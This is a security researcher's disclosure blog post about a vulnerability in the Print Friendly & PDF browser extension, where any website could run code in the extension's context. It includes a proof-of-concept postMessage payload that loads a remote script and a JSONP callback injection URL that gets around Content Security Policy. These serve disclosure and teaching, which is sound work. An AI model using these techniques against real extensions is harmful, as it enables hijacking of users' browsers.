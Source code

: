```yaml
---
categories:
- security
- add-ons
date: 2021-04-13T12:41:35+0200
description: Any website could completely compromise Print Friendly & PDF browser
  extension. The fix is not very convincing.
lastmod: '2021-06-01 09:20:26'
title: 'Print Friendly & PDF: Full compromise'
---
```


I looked into the Print Friendly & PDF browser extension while helping someone figure out an issue they were having. The issue turned out unrelated to the extension, but I already noticed something that looked very odd. A quick investigation later I could confirm a massive vulnerability affecting all of its users (close to 1 million of them). Any website could easily gain complete control of the extension.

{{< img src="print_friendly.png" alt="Print Friendly & PDF in Chrome Web Store: 800,000+ users" width="600" />}}

This particular issue has been resolved in Print Friendly & PDF 2.7.39 for Chrome. The underlying issues have not been addressed however, and the extension is still riddled with insecure coding practices. Hence my recommendation is still to uninstall it. Also, the Firefox variant of the extension (version 1.3) is still affected. I did not look at the Microsoft Edge variant but it hasn’t been updated recently and might also be vulnerable.

*Note*: To make the confusion complete, there is a browser extension called Print Friendly & PDF 2.1.0 on the Firefox Add-ons website. This one has no functionality beyond redirecting the user to `printfriendly.com` and isn’t affected. The problematic Firefox extension is being distributed from the vendor’s website directly.

{{< toc >}}

## Summary of the findings

As of version 2.7.33 for Chrome and 1.3 for Firefox, Print Friendly & PDF marked two pages (`algo.html` and `core.html`) as web-accessible, meaning that any web page could load them. The initialization routine for these pages involved receiving a `message` event, something that a website could easily send as well. Part of the message data were scripts that would then be loaded in extension context. While normally [Content Security Policy](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Content_Security_Policy) would prevent exploitation of this [Cross-Site Scripting vulnerability](https://en.wikipedia.org/wiki/Cross-site_scripting), here this protection was relaxed to the point of being easily circumvented. So any web page could execute arbitrary JavaScript code in the context of the extension, gaining any privileges that the extension had.

The only factor slightly alleviating this vulnerability was the fact that the extension did not request too many privileges:

{{< highlight json >}}
"permissions": [ "activeTab", "contextMenus" ],
{{< /highlight >}}

So any code running in the extension context could “merely”:

* Persist until a browser restart, even if the website it originated from is closed
* Open new tabs and browser windows at any time
* Watch the user opening and closing tabs as well as navigating to pages, but without access to page addresses or titles
* Arbitrarily manipulate the extension’s icon and context menu item
* Gain full access to the current browser tab whenever this icon or context menu item was clicked

## Insecure communication

When the Print Friendly & PDF extension icon is clicked, the extension first injects a content script into the current tab. This content script then adds a frame pointing to the extension’s `core.html` page. This requires `core.html` to be web-accessible, so any website can load that page as well (here assuming Chrome browser):

{{< highlight html >}}
<iframe src="chrome-extension://ohlencieiipommannpdfcmfdpjjmeolj/core.html"></iframe>
{{< /highlight >}}

Next the content script needs the frame to initialize. And so it takes a shortcut by using [window.postMessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) and sending a message to the frame. While being convenient, this API is also rarely used securely in a browser extension (see [Chromium issue](https://bugs.chromium.org/p/chromium/issues/detail?id=1188556) I filed). Here is what the receiving end looks like in this case:

{{< highlight js >}}
window.addEventListener('message', function(event) {
  if (event.data) {
    if (event.data.type === 'PfLoadCore' && !pfLoadCoreCalled) {
      pfLoadCoreCalled = true;
      var payload = event.data.payload;
      var pfData = payload.pfData;
      var urls = pfData.config.urls;

      helper.loadScript(urls.js.jquery);
      helper.loadScript(urls.js.raven);
      helper.loadScript(urls.js.core, function() {
        window.postMessage({type: 'PfStartCore', payload: payload}, '*');
      });
      helper.loadCss(urls.css.pfApp, 'screen');
    }
  }
});
{{< /highlight >}}

No checks performed here, any website can send a message like that. And `helper.loadScript()` does exactly what you would expect: it adds a `<script>` tag to the current (privileged) extension script and attempts to load whatever script it was given.

So any web page that loaded this frame can do the following:

{{< highlight js >}}
var url = "https://example.com/xss.js";
frame.contentWindow.postMessage({
  type: "PfLoadCore",
  payload: {
    pfData: {
      config: {
        urls: {
          js: {
            jquery: url
          }
        }
      }
    }
  }
}, "*")
{{< /highlight >}}

And the page will attempt to load this script, in the extension context.

## Getting around Content Security Policy

With most web pages, this would be the point where attackers could run arbitrary JavaScript code. Browser extensions are always protected by [Content Security Policy](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Content_Security_Policy) however. The default `strict-src 'self'` policy makes exploiting Cross-Site Scripting vulnerabilities difficult (but [not impossible](/2020/02/25/mcafee-webadvisor-from-xss-in-a-sandboxed-browser-extension-to-administrator-privileges/)).

But Print Friendly & PDF does not stick to the default policy. Instead, what they have is the following:

{{< highlight json >}}
"content_security_policy": "script-src 'self'
    https://cdn.printfriendly.com
    https://www.printfriendly.com
    https://v.printfriendly.com
    https://key-cdn.printfriendly.com
    https://ds-4047.kxcdn.com
    https://www.google-analytics.com
    https://platform.twitter.com
    https://api.twitter.com
    https://cdnjs.cloudflare.com
    https://cdn.ravenjs.com",
{{< /highlight >}}

Yes, that’s a very long list of web servers that JavaScript code can come from. In particular, the CDN servers host all kinds of JavaScript libraries. But one doesn’t really have to go there. Elsewhere in the extension code one can see:

{{< highlight js >}}
var script = document.createElement("script");
script.src = this.config.hosts.ds_cdn +
    "/api/v3/domain_settings/a?callback=pfMod.saveAdSettings&hostname=" +
    this.config.hosts.page + "&client_version=" + hokil.version;
{{< /highlight >}}

See that `callback` parameter? That’s [JSONP](https://en.wikipedia.org/wiki/JSONP), the crutch web developers used for cross-domain data retrieval before [Cross-Origin Resource Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) was widely available. It’s essentially Cross-Site Scripting but intentionally. And the `callback` parameter becomes part of the script.

Nowadays JSONP endpoints which are kept around for legacy reasons will usually only allow certain characters in the callback name. Not so in this case. Loading `https://www.printfriendly.com/api/v3/domain_settings/a?callback=alert(location.href)//&hostname=example.com` will result in the following script:

{{< highlight js >}}
/**/alert(location.href)//(...)
{{< /highlight >}}

So here we can inject any code into a script that is located on the `www.printfriendly.com` domain. If we ask the extension to load this one, Content Security Policy will no longer prevent it. Done, injection of arbitrary code into the extension context, full compromise.

## What’s fixed and what isn’t

More than two months after reporting this issue I checked in on the progress. I discovered that, despite several releases, the current extension version was still vulnerable. So I sent a reminder to the vendor, warning them about the disclosure deadline getting close. The response was reassuring:

> We are working on it.  [...] We will be finishing the update before the deadline.

When I finally looked at the fix before this publication, I noticed that it merely removed the problematic message exchange. The communication now went via the extension’s background page as it should. That’s it.

While this prevents exploitation of the issue as outlined here, all other problematic choices remain intact. In particular, the extension continues to relax Content Security Policy protection. Given how this extension works, my recommendation was hosting the `core.html` frame completely remotely. This has not been implemented.

No callback name validation has been added to the JSONP endpoints on `www.printfriendly.com` (there are multiple), so Content Security Policy integrity hasn’t been ensured this way either.

Not just that, the extension continues to use JSONP for some functionality, even in privileged contexts. The JavaScript code executed here comes not merely from `www.printfriendly.com` but also from `api.twitter.com` for example. For reference: there is absolutely no valid reason for a browser extension to use JSONP.

And while the insecure message exchange has been removed, some of the extension’s interactions with web pages remain highly problematic.

## Timeline

* 2021-01-13: Reported the vulnerability to the vendor
* 2021-01-13: Received confirmation that the issue is being looked at
* 2021-03-21: Reminded the vendor of the disclosure deadline
* 2021-03-22: Received confirmation that the issue will be fixed in time
* 2021-04-07: Received notification about the issue being resolved
* 2021-04-12: Notified the vendor about outstanding problems and lack of a Firefox release